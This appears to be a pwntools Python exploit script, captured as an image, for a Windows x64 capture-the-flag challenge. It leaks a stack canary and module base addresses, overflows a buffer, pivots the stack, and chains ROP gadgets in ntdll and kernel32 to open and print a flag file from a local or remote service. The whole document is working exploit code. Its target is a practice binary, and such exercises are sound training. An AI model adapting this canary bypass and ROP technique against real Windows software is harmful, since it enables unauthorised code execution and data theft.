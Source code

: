 ```python=
        pop_rdx_r11 = ntdll + 0x8c4b7
        pop_r89ab = ntdll + 0x8c4b2
        xchg_eax_ecx = ntdll + 0x87ebb
        getstdhandle = kernel32 + 0x1c610
        readfile = kernel32 + 0x22410
        pop_rsp = ntdll + 0xb416
        createfile = kernel32 + 0x22080

    log.info('canary: ' + hex(canary))
    log.info('prog_base: ' + hex(prog_base))
    log.info('kernel32: ' + hex(kernel32))
    log.info('ntdll: ' + hex(ntdll))

    pop_rsp_addrsp_0x20_pop_rdi = prog_base + 0x1ec7
    puts_menu = prog_base + 0x11bc
    main = prog_base + 0x1070
    pop_rbx = prog_base + 0x1063
    puts_iat = prog_base + 0x31b0
    exit = prog_base + 0x14a4
    index_str = prog_base + 0x328c
    write_iat = prog_base + 0x3190
    stack = ntdll + 0x15f000 + 0x4000

    read_menu = prog_base + 0x1337
    getstdhandle_iat = prog_base + 0x3008
    # buf = b'B' * 0x50 , canary, rbp, ret
    buf = flat(b'B' * 0x50, canary, stack - 0x480, pop_rcx, 0xfffffff6,
            getstdhandle, xchg_eax_ecx,
            pop_r89ab, 0x600, stack - 8, 0, 0, pop_rdx_r11, stack, 0,
            pop_rbx, 0, readfile, pop_rsp, stack + 0x100)
    add(5, buf)
    input('a')
    proc.sendlineafter(b':', b'3')
    input('wait')

    if len(sys.argv) <= 1:
        # local
        add_rsp38 = ntdll + 0x2a3b
    else:
        # remote
        add_rsp38 = ntdll + 0x26fb
    createfileflag = 0x80 | 0x40000000
    createfileflag = 1
    buf = flat(b'flag.txt'.ljust(0x100, b'\x00'), pop_rcx, stack,
            pop_rdx_r11, 0x80000000, 0, pop_r89ab, 1, 0, 0, 0,
            createfile, add_rsp38, 0, 0, 0, 0, 3, createfileflag, 0,
            xchg_eax_ecx, pop_rdx_r11, stack, 0, pop_r89ab, 0x20, stack - 8,
            0x41, 0x41, readfile, add_rsp38, 0x41, 0x41, 0x41, 0x41, 0, 0x41, 0x41,
            pop_rcx, stack, puts_menu)
    proc.sendline(buf)


if __name__ == '__main__':
    context.arch = 'amd64'
    if len(sys.argv) > 1:
        connect = 'nc eductf.zoolab.org 30001'
        connect = connect.split(' ')
        proc = remote(connect[1], int(connect[2]))
    else:
        connect = 'nc 192.168.9.1 30001'
        connect = connect.split(' ')
        proc = remote(connect[1], int(connect[2]))
    exploit()
```